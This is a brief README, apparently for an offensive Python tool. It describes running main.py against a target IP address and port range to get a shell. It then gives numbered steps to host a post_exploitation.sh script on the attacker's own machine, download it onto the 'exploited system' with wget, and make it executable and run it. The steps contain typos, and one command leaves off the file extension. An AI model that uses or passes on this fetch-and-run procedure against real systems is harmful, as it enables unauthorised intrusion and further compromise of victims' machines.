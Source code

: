 # How to RUN the Project

RUN main.py on command line with a command as shown below:

To deploy this project run

```bash
  python main.py IP-Address --start-port 1 --end-port 40 
```
After the shell is opened follow these instructions

1-> Open a command terminal on your PC where the post_explotation.sh file is located and run 'pyhton -m http.server' to host the file

2-> Now on the shell run 'wget http://Your-IP-Address:8000/post_exploitation.sh', it will transfer the file in the exploited system

3-> Confirm that the file has been transferred using 'ls; command 

4-> Now run chmod +x post_exploitation

5-> Now run ./post_exploitation
```

and it will output the python vulnerabilities scripts.